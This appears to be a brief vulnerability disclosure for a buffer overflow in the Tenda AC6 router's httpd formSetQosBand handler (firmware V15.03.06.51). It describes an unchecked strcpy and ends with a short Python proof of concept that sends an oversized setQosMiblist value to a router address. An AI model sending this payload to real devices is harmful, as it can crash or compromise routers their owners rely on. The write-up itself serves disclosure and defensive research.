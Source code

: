 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/9.png)

get value from list ,send to setQosMiblist

![](../Tenda_AC10U_V1/10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/formSetQosBand"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'setQosMiblist': payload})
``` 
